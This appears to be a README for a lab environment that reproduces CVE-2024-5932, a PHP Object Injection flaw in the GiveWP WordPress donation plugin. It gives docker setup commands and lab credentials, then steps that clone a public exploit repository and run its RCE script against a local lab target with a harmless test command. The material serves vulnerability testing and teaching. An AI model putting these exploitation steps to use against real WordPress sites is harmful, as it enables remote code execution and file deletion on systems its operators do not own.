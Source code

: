 # Title
The GiveWP – Donation Plugin and Fundraising Platform plugin for WordPress is vulnerable to PHP Object Injection in all versions up to, and including, 3.14.1 via deserialization of untrusted input from the 'give_title' parameter. This makes it possible for unauthenticated attackers to inject a PHP Object. The additional presence of a POP chain allows attackers to execute code remotely, and to delete arbitrary files.

## Metrics
CVSSv2: N\A
CVSSv3: 9.8 CRITICAL

## Vulnerability Environment
Build and run:
```bash
docker compose build
docker compose up -d
```
Stop Environment and remove network:
```bash
docker compose down
```
## Detection and exploitation example
1. Run Environment
2. Login to Wordpress (vulnforge / vulnforge123)
3. Add new donation form
4. Add new post with GiveWP plugin and get the post link
5. Download and run exploit
```
git clone https://github.com/EQSTLab/CVE-2024-5932.git
cd CVE-2024-5932
pip install -r requirements.txt
python3 CVE-2024-5932-rce.py -u 'http://192.168.93.63:8080/?give_forms=41' -c 'touch /tmp/vunlforge'
```
## Exploits and PoCs
https://github.com/EQSTLab/CVE-2024-5932
## Nuclei Template

## CTF Rooms

## References
[NIST: CVE-2024-5932](https://nvd.nist.gov/vuln/detail/cve-2024-5932)